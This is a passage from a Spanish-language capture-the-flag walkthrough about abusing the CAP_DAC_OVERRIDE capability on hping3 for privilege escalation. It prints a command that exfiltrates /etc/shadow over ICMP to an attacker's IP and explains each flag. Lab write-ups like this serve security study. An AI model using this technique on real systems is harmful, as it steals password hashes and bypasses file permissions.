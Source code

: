 > 🔒 "`CAP_DAC_OVERRIDE` Bypass file read, write, and execute permission checks." ~ [man capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html).

Uhhhhhhhh, significa que podemos leer, escribir y ejecutar cualquier objeto del sistema saltándonos los permisos que tenga 🤭 Solo queeee, tenemos que hacer eso usando `hping3`...

> 🔍 Te dejo [este recurso donde se explica como se podria escalar privilegios con cada **capability**](https://forums.grsecurity.net/viewtopic.php?f=7&t=2522&sid=c6fbcf62fd5d3472562540a7e608ce4e#p10271).

---

## Espiando archivos del sistema mediante paquetes ICMP [📌](#hping3-data-file) {#hping3-data-file}

Lo primero que hacemos es ver las opciones propias del binario `hping3` a ver cuáles pueden ser interesantes, entre ellas vemos:

```bash
www-data@milk:~$ hping3 -h
...
  -E  --file       data from file
...
```

Un parámetro toma información desde un archivo, pero esto está muy ambiguo, busquemos en internet a ver si hay info más detallada de que hacer con esto.

* [How to manipulate payload data sent through a packet using ICMP ping?](https://imsurajkr.github.io/blog/hping3)

> 🔜 "If we want to send a file from a system to another system over the network using ping command through ICMP tunnel." (so, use `hping3`). ~ [imsurajkr.github.io](https://imsurajkr.github.io/blog/hping3#what-if-we-want-to-manipulate-data-through-the-ping-command)

En el post nos indican que efectivamente con ***hping3*** podemos enviar archivos mediante paquetes ***ICMP***, para ello tenemos que usar los siguientes parámetros (aunque buscando, hay varias maneras, ahorita les dejo las referencias):

Máquina víctima:

```bash
/usr/sbin/hping3 -1 -E /etc/shadow -u -d 1500 192.168.100.7
```

| Parámetro | Descripción |
| --------- | :---------- |
| -1        | Le decimos a *hping3* que vamos a enviar paquetes *ICMP*. |
| -E        | Acá le indicamos el archivo del sistema que queremos enviar. (En este caso uno al que solo se tiene acceso con permisos privilegiados: el objeto que contiene las contraseñas de cada usuario del sistema, [/etc/shadow](https://www.techtarget.com/searchsecurity/definition/shadow-password-file)). |
| -u        | Nos dirá cuando la transferencia haya acabado. |
| -d        | Configuramos el tamaño del paquete (del archivo en sí). |
| IP        | Le pasamos la dirección IP a la que vamos a enviarle los paquetes (o sea, la máquina atacante). |
